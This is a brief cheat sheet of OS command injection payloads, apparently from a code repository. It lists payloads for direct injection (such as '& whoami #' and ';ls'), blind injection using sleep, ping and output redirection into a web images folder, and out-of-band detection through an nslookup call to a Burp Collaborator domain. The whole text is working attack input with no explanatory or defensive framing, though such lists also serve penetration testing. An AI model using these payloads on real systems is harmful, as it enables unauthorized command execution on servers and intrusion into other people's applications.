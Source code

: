 # OS Command Injection Payloads
___
## Simple Case
```sh
& whoami #

;ls

;ls;
```
## Blind injection
```sh
& sleep 10 #

& whoami > /var/www/images/output.txt # >> Output redirection

asd||sleep 5|| >> Middle of two parameter.

||ping+-c+10+127.0.0.1||

asd||sleep 5 # >> Last parameter or to comment out extra parameter
```
## Out of band
```sh
& nslookup xgvse45vdusd5etw7ewqd9d78wq.burpcollaborator.net #
```
